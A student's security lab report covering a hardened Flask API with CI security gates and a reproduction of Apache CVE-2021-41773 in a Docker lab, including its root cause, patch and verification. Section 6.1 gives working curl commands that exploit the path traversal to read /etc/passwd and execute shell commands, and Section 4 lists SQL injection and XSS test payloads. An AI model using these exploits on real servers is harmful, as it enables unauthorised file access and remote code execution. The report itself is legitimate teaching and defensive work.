




# Work 1 — Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis

**Report**

| | |
| --- | --- |
| Laboratory work | #1 — Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis |
| Variant | CVE-2021-41773 |
| Student | Xiao Yangshan |
| HDU number | 23320208 |
| Repository | <https://github.com/foreverlanterns/secure-demo-api> |
| Pipeline | <https://github.com/foreverlanterns/secure-demo-api/actions> |
| Last successful run | 39715081913 — `8787fd2`, all three jobs green, SARIF in Code scanning |

---

## 1. Purpose

Build a backend service that is secure by construction rather than by patching,
put automated security checks in front of every commit, and then work a real
vulnerability end to end — reproduce it in an isolated environment, explain why it
exists at the code level, fix it, and prove the fix without breaking the service.

The three parts are deliberately connected: the API demonstrates the defensive
side of the same failure modes (injection, broken authentication, unsafe output)
that the CVE demonstrates on the offensive side.

## 2. Stack and project initialisation

| Layer | Choice | Reason |
| --- | --- | --- |
| Language | Python 3.11+ | available on the lab machine; `sqlite3`, `hmac`, `secrets` in the stdlib |
| Framework | Flask 3.1 | minimal surface, explicit request handling |
| Storage | SQLite via `sqlite3` | zero setup, and parameter binding is explicit in the source (no ORM hiding it) |
| Auth | bcrypt + PyJWT | standard, auditable primitives |
| CI | GitHub Actions | required by the assignment, free for public repositories |

```bash
python -m venv .venv && source .venv/bin/activate
pip install -r requirements-dev.txt
git init && git remote add origin git@github.com:<user>/secure-demo-api.git
git add . && git commit -m "feat: secure demo API with CI" && git push -u origin main
```

## 3. API

| Method | Path | Auth | Description |
| --- | --- | --- | --- |
| `POST` | `/auth/login` | — | accepts `login` + `password`, returns a JWT |
| `GET` | `/api/data` | Bearer | user directory, paginated |
| `POST` | `/api/posts` | Bearer | creates a post owned by the caller (own design) |
| `GET` | `/api/posts` | — | public feed, used to demonstrate escaping |
| `GET` | `/api/me` | Bearer | identity decoded from the token |
| `POST` | `/auth/register` | — | account creation, password policy enforced |
| `GET` | `/healthz` | — | liveness probe |

Verified behaviour (local run, port 5055):

```text
$ curl -i http://127.0.0.1:5055/api/data
HTTP/1.1 401 UNAUTHORIZED
{"error":"authentication required"}

$ curl -X POST http://127.0.0.1:5055/auth/login \
    -H 'Content-Type: application/json' \
    -d '{"login":"alice","password":"Alice-Strong-Pass-1"}'
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...","expires_in":900,
 "token_type":"Bearer","user":{"id":1,"role":"user","username":"alice"}}

$ curl http://127.0.0.1:5055/api/data -H "Authorization: Bearer $TOKEN"
{"items":[{"created_at":"2026-10-20 12:04:19","id":1,"role":"user","username":"alice"},
          {"created_at":"2026-10-20 12:04:20","id":2,"role":"user","username":"bob"}],
 "page":1,"per_page":20,"total":2}
```

## 4. Security measures

### 4.1 SQL injection

Every query is a prepared statement with bound parameters; no string
concatenation, f-string or `%` formatting touches SQL text.

```python
row = db.execute(
    "SELECT id, username, password_hash, role FROM users WHERE username = ?",
    (username,),
).fetchone()
```

Proof — the three canonical payloads are rejected as literal usernames:

```text
$ curl -X POST …/auth/login -d '{"login":"alice'"'"' OR '"'"'1'"'"'='"'"'1","password":"x"}'
{"error":"invalid username or password"}          # HTTP 401
```

The same three payloads are asserted in
`tests/test_auth.py::test_sql_injection_in_login_does_not_bypass_auth`.

### 4.2 XSS

Sanitisation happens on output, at the trust boundary, via
`markupsafe.escape()`; the database keeps the original bytes so no data is
destroyed and no double-encoding accumulates.

```text
$ curl -X POST …/api/posts -d '{"title":"<script>alert(1)</script>","content":"xss test"}'
{"author":"alice","content":"xss test","id":3,
 "title":"&lt;script&gt;alert(1)&lt;/script&gt;"}
```

Responses additionally carry `X-Content-Type-Options: nosniff`,
`X-Frame-Options: DENY`, `Content-Security-Policy: default-src 'none';
frame-ancestors 'none'`, `Referrer-Policy: no-referrer`, `Cache-Control: no-store`.

### 4.3 Broken authentication

| Requirement | Implementation | Test |
| --- | --- | --- |
| Issue a JWT on login | HS256, `exp`/`iat`/`nbf`, 15 min TTL | `test_login_success_returns_bearer_token` |
| Verify the token on protected endpoints | `@token_required` middleware | `test_data_requires_a_token` |
| No plaintext passwords | bcrypt cost 12, per-password salt | `test_password_hash_never_leaves_the_service` |
| Signature cannot be forged | `algorithms=["HS256"]` pinned | `test_alg_none_token_is_rejected`, `test_token_signed_with_another_key_is_rejected` |
| No user enumeration | identical message + dummy bcrypt on unknown user | `test_login_unknown_user_gives_same_message` |
| Brute force limited | 5 failures / 5 min per (user, IP) → `429` | `test_brute_force_is_throttled` |

## 5. CI/CD

`.github/workflows/ci.yml`, triggered on every push and pull request:

| Job | Tool | Gate | Result on `bd09fb1` |
| --- | --- | --- | --- |
| `test` | pytest 8.3.4 | 22 tests must pass | 22 passed |
| `sast` | bandit 1.9.4 `-ll` | fails on MEDIUM or higher; SARIF to code scanning | no issues at MEDIUM+, one Low below the gate |
| `sca` | pip-audit 2.7.3 `--strict` | fails on any known-vulnerable dependency | no known vulnerabilities |

The workflow defaults to `permissions: contents: read`; only the SAST job is
granted `security-events: write`, so a compromised third-party action cannot push
to the repository.

**The pipeline caught a real defect on its first run.** The initial build failed —
not on the tests, but on SCA. `pip-audit` reported 18 advisories across the two
pinned dependencies:

| Package | Version | Advisories | Fixed in |
| --- | --- | --- | --- |
| `flask` | 3.1.0 | PYSEC-2026-1377, PYSEC-2026-2151 | 3.1.1 / 3.1.3 |
| `pyjwt` | 2.10.1 | PYSEC-2025-183, PYSEC-2026-120/175–179/4140–4149/4152/4183 | 2.12.0 – 2.15.0 |



The pins were raised to `Flask==3.1.3`, `PyJWT==2.15.1`, `bcrypt==5.0.0`; the suite
still passed and the next run went green (run 39460231575, commit `ef4a7fb`). A
reviewer would not have noticed a stale pin by reading the diff — the gate did.



**The pipeline then caught a defect in itself.** The green runs still carried a red
annotation: `SAST (bandit): Path does not exist: bandit.sarif`. The upload step had
been failing silently since the first commit, because `bandit -f sarif` is an
invalid choice on 1.8.0 — the SARIF formatter ships as an optional extra. Fixed by
installing `bandit[sarif]==1.9.4` and adding a check that fails loudly when the
report is missing, so `|| true` can never hide it again. The analysis now lands in
**Security → Code scanning** (tool `Bandit`, 0 results) and the run's remaining
annotations are runner-image warnings only.





**Green, but not silent.** The latest run (`39468208233`, `de0a524`, 21 s) carries
warnings rather than errors: several pinned actions still target Node 16 and are
forced onto Node 24, and the `ubuntu-latest` runner image migrates to Ubuntu 26 in
October. Neither fails the build; both are one-line dependency bumps, and the
annotations panel is exactly where they belong until someone does them.

Evidence: `docs/screenshots/01-ci-history.png` (the run list),
`01b-run1-failed.png` (SCA rejecting the build), `01c-run-green.png` (three jobs
green), `01d-sarif-error-before-fix.png` (the annotation above),
`01f-run-sarif-fix.png` (the fix landing), `01e-run-latest.png` (the current state),
`02b-ci-logs.png` (the three gates' output).

## 6. CVE analysis — CVE-2021-41773

| Field | Value |
| --- | --- |
| Component | Apache HTTP Server 2.4.49 |
| Class | CWE-22 path traversal → RCE with `mod_cgi` |
| CVSS 3.1 | 9.8 Critical |
| Fixed | 2.4.51 (2.4.50 incomplete → CVE-2021-42013) |

### 6.1 Reproduction

Executed on Windows 11 + Docker Desktop (engine 29.9.1, Linux containers):

```bash
git clone --depth 1 --filter=blob:none --sparse https://github.com/vulhub/vulhub.git
cd vulhub && git sparse-checkout set httpd/CVE-2021-41773
cd httpd/CVE-2021-41773 && docker compose up -d --build
```

```bash
curl -s --path-as-is \
  'http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd' | head -3
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

curl -s --path-as-is \
  --data 'echo Content-Type: text/plain; echo; id' \
  'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
# uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Both requests returned `200`. Full transcript, payload anatomy and the eight
captured evidence images: `docs/CVE-2021-41773-walkthrough.md`,
`docs/screenshots/`.

### 6.2 Root cause

Three conditions, all required:

1. **Normalisation bug.** 2.4.49 rewrote `ap_normalize_path()`. It checked for
   traversal on a *partially decoded* path and decoded `%2e%2e` to `..` only
   later, at file-open time — validate-then-decode instead of
   decode-then-validate. The guard therefore never saw the `..`.
2. **Authorisation default.** 2.4.49 changed the filesystem root default from
   `Require all denied` to `Require all granted`, so the escaped path was served
   instead of being denied by default policy.
3. **`mod_cgi`.** The CGI handler executes the file the path resolves to and pipes
   the request body to stdin, so `/bin/sh` turns file read into command execution.

2.4.50 blocked the single-encoded form but kept the wrong ordering, so a
double-encoded payload (`%%32%65` → `%2e` → `.`) still passed — CVE-2021-42013.

### 6.3 Fix

```diff
-    image: vulhub/httpd:2.4.49
+    image: httpd:2.4.51
```

```apache
<Directory />
    AllowOverride None
    Require all denied
</Directory>
#LoadModule cgi_module modules/mod_cgi.so   # only if the app needs CGI
```

2.4.51 decodes fully before handling `..`, which closes the class rather than one
payload. `Require all denied` removes condition 2 and not loading `mod_cgi`
removes condition 3, so the fix survives a future normalisation bug.

### 6.4 Verification

Measured on two builds running side by side — `2.4.49` on port 8080 and `2.4.51`
on 8081, identical Dockerfiles apart from the base tag:

| Build | Request | Observed | Interpretation |
| --- | --- | --- | --- |
| 2.4.49 | `GET /icons/.%2e/…/etc/passwd` | `200` + passwd | vulnerable |
| 2.4.49 | `POST /cgi-bin/.%2e/…/bin/sh` | `200` + `uid=1(daemon)` | RCE |
| 2.4.49 (stock config) | same traversal | `403` | config layer alone contains it |
| 2.4.51 | same traversal | **`400 Bad Request`** | fixed |
| 2.4.51 | `GET /` | `200` | regression test passed |

The patched build answers `400`, not `404`: the request is rejected during path
normalisation, before any filesystem lookup, which is exactly the shape of the
fix. The stock-config row is the control that proves the second, independent
layer: with `Require all denied` restored, the same payload never gets
authorised even on the vulnerable version.

Evidence: `docs/screenshots/11-cve-passwd.png`, `12-cve-rce.png`,
`15-cve-fixed-400.png`, `16-cve-regression.png`, `17-cve-stock-403.png`.

## 7. Conclusion

The API is secure against the three required failure classes, and each defence is
pinned by a test that fails if the defence is removed — which is what makes the
pipeline meaningful rather than decorative. The CVE half shows the same lesson
from the other side: CVE-2021-41773 was not a missing check but a check performed
on the wrong string, and the patch that only added a pattern (2.4.50) failed
within three days. Ordering, canonicalisation and default-deny are the transferable
ideas; the payload is incidental.

---

## Appendix — Control questions

**1. Why is bcrypt preferable to SHA-256 for passwords?**
SHA-256 is designed to be fast: a GPU tests billions of candidates per second, and
an unsalted hash lets one precomputed table attack every user at once. bcrypt is
deliberately slow, memory-hard enough to resist GPU/ASIC parallelism, and embeds a
per-password salt plus a cost parameter inside the digest, so the work factor can
be raised as hardware improves. SHA-256 also has no built-in key stretching, so
one leaked database is immediately crackable for common passwords.

**2. SAST vs DAST?**
SAST analyses source or bytecode without executing the program: it sees every
branch, including unreachable-in-practice code, and reports early in the
development cycle, but it cannot judge runtime configuration or actual
exploitability, so it produces false positives. DAST attacks a running instance
from the outside: it only reports what is genuinely reachable, and it catches
configuration and deployment issues, but it has no visibility into the code, can
miss internal paths, and needs a running environment plus authentication handling.

**3. How does a JWT work?**
Three base64url parts: `header` (algorithm, type), `payload` (claims — `sub`,
`exp`, `iat`, plus application claims such as `role`), and `signature`, computed
over `header.payload` with the server's secret (HMAC) or private key (RSA/ECDSA).
The server verifies the signature with its key and validates `exp`/`nbf`; it does
not need a session store, which is what makes it stateless. Crucially the payload
is only *encoded*, not encrypted — anyone can read it, so it must never carry
secrets. This project pins the algorithm server-side, because accepting the
`alg` from the token enables the `none` and algorithm-confusion forgeries.

**4. Risks of not auditing dependencies?**
A vulnerable transitive library is exploitable without a single line of your own
code changing — Log4Shell and `event-stream` are the canonical cases. You also
inherit abandoned packages, typosquatted names, and licence obligations. The
practical risk is that your own code review says "clean" while the shipped
artifact is vulnerable; `pip-audit` in CI turns that into a build failure instead
of an incident.

**5. Advantages of Docker + Vulhub over installing vulnerable software locally?**
Isolation: the vulnerable service runs in a container with no access to the host
filesystem or network beyond the published port, so a mistake does not compromise
the machine. Reproducibility: the exact vulnerable version is pinned, so results
match the CVE write-up and are repeatable by a grader. Disposability: `docker
compose down` returns to a clean state, which makes it safe to run real exploits.
Speed: no dependency conflicts between the vulnerable stack and the host.

**6. Vulnerability vs exploit — what was reproduced?**
A vulnerability is the weakness itself (the ordering bug in
`ap_normalize_path()`); an exploit is the concrete input that weaponises it
(`GET /cgi-bin/.%2e/…/etc/passwd`). I reproduced the exploit to demonstrate the
vulnerability, and the fix addressed the vulnerability, not the payload.

**7. Why is regression testing critical after a patch?**
Security patches are frequently applied under time pressure to code paths that
also serve normal traffic. A fix that blocks the payload by breaking path handling
can break legitimate requests — for example an over-eager normalisation that
rejects encoded characters in filenames. Without a functional check after the fix,
you can ship a "secure" service that no longer works, and the next rollback
reintroduces the vulnerability.

**8. How does reproducing CVEs help a security specialist?**
It converts advisory text into intuition about exploitability: you learn what
preconditions matter (here: an aliased path, the permissive default, and CGI),
which is exactly what you need to prioritise patching across an estate. For a
pentester it supplies tested payloads and an understanding of variants; for a SOC
analyst it supplies the request patterns to detect (`%2e%2e` in URI, `/cgi-bin/`
traversal) and the reason a 404 versus 500 matters. It also calibrates trust in
scanners: knowing the mechanics tells you why a scanner missed or mislabelled a
finding.
